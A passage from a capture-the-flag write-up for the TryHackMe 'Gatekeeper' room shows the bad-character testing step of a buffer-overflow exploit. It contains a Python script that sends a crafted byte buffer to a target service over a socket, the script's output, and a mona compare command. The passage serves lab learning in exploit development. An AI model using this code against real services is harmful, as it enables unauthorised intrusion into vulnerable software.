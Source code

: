 ```py
bad_char += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
bad_char += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
bad_char += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
bad_char += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
bad_char += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
bad_char += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

buffer = payload + bad_char

try:
	with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
		s.connect((ip, port))

		print('[+] Sending evil buffer...')
		s.send(buffer + b'\r\n') # \r means the Enter key, \n means new line character
		print('[+] Done!')
except:
	print('[-] Unable to send/connect to the target.')
```

**Run the exploit:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Gatekeeper]
└─# python3 exploit.py
[+] Sending evil buffer...
[+] Done!
```

**Use mona's `compare` to find missing bytes:**
```
!mona compare -f C:\monagatekeeper\bytearray.bin -a first_byte_of_the_badchars_array
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Gatekeeper/images/a14.png)

